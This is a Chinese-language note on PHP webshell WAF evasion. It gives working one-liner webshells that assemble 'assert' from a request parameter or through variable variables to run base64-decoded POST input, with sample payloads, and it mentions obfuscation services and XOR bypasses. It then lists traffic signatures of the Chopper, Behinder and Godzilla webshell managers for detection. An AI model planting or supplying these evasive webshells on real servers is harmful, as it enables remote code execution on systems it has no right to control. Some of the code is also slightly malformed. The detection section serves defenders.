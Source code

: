 # 1.代码免杀

WAF会对上传文件内容中敏感命令进行识别阻止访问，例eval

## 1.php传参带入

```php
<?php
$a=$_GET['a'];
$aa=$a.'ert';
$aa(base64_decode($_POST['x']));
>
```

payload:

```payload
?a=ass
x=cGhwaW5mbygpOw==
```

`cGhwaW5mbygpOw==`是phpinfo();进过base64加密的，waf可能会对phpinfo()进行检测，此处assert的作用和eval是相同的，但是eval在此处无法执行

## 2.php变量覆盖

```php
<?php
$a='b';
$b='assert';
$$a(base64_decode($_POST['x']);
>
```

pyload

```
x=cGhwaW5mbygpOw==
```

## 3.php加密变异

http://www.phpjm.net/

使用在线加密网站

## 4.php异或绕过，无字母数字绕过

通过两个字符异或可以得到想要的字符



# 2.流量特征

## 1.菜刀

### 2、特征：

```
数据包流量特征：

1，请求包中：ua头为百度爬虫

2，请求体中存在eval，base64等特征字符

3，请求体中传递的payload为base64编码，并且存在固定的QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO307ZWNobygiWEBZIik7J
```



## 2.冰蝎

消息体内容采用 AES 加密，基于特征值检测的安全产品无法查出。

### 特征：

默认密码为`rebeyond`

```
0、User-agent：代码中定义

1、Pragma: no-cache

2、Content-Type：application/x-www-form-urlencoded

3、Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

4、Accept-Encoding: gzip, deflate, br

5、Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```

## 3.哥斯拉

### 1、特征：

```
1、User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0

2、Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

3、Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

4、Cookie: PHPSESSID=rut2a51prso470jvfe2q502o44;  cookie最后面存在一个";"
```

